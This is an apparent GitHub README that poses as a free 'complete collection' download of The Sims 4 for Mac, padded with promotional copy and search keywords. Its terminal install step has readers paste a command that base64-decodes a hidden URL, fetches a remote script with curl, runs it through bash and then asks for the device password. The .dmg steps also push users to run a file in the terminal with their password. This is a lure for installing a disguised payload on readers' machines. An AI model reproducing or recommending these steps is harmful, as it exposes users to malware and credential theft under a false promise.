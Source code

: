 # The Sims 4 Download Mac - Redefine Your Virtual Life   

![The Sims 4 Mac Screenshot](https://cdn.cultofmac.com/wp-content/uploads/2019/05/ACCCD8A0-0225-4BB0-AB07-E5F875AD1039.jpeg)  

---  

## 🔽 Download The Sims 4 for Mac

[![Download Now](https://img.shields.io/badge/Download_Sims4-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/thesims4)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

--- 

## What is The Sims 4 for Mac?  

The Sims 4 stands as the pinnacle of life simulation games, offering unmatched creative freedom to shape unique personalities, construct breathtaking homes, and orchestrate captivating life stories. This specially optimized Mac version delivers the ultimate gameplay experience with enhanced stability and performance tailored for macOS.  

Going beyond basic editions, this complete collection comes packed with **35+ expansion packs and DLCs** ready to play immediately - unlocking every available location, career option, and gameplay feature without restrictions. Engineered specifically for **Apple's latest hardware**, including M1/M2/M3 processors, it delivers lightning-fast load times and consistently high frame rates even during intensive gameplay sessions.  

Exercise **absolute creative authority** with unrestricted access to all construction and decoration items from the outset, utilize advanced character customization systems, and experience every piece of additional content without barriers. The Mac edition maintains full **mod and CC support**, allowing integration of countless community-made additions to personalize your perfect simulation experience.  

From everyday domestic scenarios to extraordinary supernatural journeys, The Sims 4 presents **boundless storytelling potential** on your Mac. Benefit from seamless cross-platform save compatibility and enjoy optimized macOS integration including Metal API support for superior graphics rendering and energy efficiency.  

Whether you're a series veteran or exploring The Sims for the first time, this Mac package represents the most comprehensive, polished, and feature-rich version ever released - with all current and future updates automatically included at no additional cost.  

![The Sims 4 Gameplay](https://imag.malavida.com/mvimgbig/download-fs/los-sims-4-18353-1.jpg)  

---  

## Key Features & Benefits  

- 🏡 **Complete Collection** with 30+ expansion packs  
- 🍏 **Optimized** for Apple Silicon (M1/M2) and Intel Macs  
- 🎭 **Unlimited customization** for Sims and homes  
- 🌎 **All worlds and careers unlocked**  
- 🛠️ **Full mod and custom content support**  
- ⚡ **Smooth performance** on macOS  

Whether you're a longtime fan or new to the series, The Sims 4 for Mac offers **endless hours** of creative gameplay and storytelling possibilities.  

---  

## 🔍 Keywords  

The Sims 4 for Mac, The Sims 4 Mac Download, The Sims 4 for Mac Download, The Sims 4 Mac, The Sims 4 Download Mac, The Sims 4 Download for Mac, the sims 4 full version, Mac Download The Sims 4, Download Mac The Sims 4, Download The Sims 4 Mac, Download The Sims 4 for Mac 
